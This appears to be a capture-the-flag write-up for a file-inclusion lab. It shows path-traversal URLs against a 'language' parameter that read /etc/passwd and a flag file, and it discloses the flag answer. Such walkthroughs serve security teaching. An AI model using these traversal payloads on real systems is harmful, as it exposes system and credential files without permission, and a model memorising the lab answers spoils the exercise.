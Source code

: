 ## Challenge #1

Using the file inclusion find the name of a user on the system that starts with "b".


## Solution #1

In the page there is a functionality to change the language.

I click on spanish, and it makes the url:

`http://94.237.59.180:58659/index.php?language=es.php`

I try path traversal here:

```http://94.237.59.180:58659/index.php?language=../../../../../etc/passwd`

And I got the file, and among them there is a user:

`barry:x:1000:1000::/home/barry:/bin/sh`

So the answer is `barry`.


## Challenge #2
 Submit the contents of the flag.txt file located in the /usr/share/flags directory.

 ## Solution #2
Since we have path traversal vulnerability here, I will use it to access the file.

`http://94.237.59.180:58659/index.php?language=../../../../../usr/share/flags/flag.txt`

And the contents of this file are:

`HTB{n3v3r_tru$t_u$3r_!nput}`

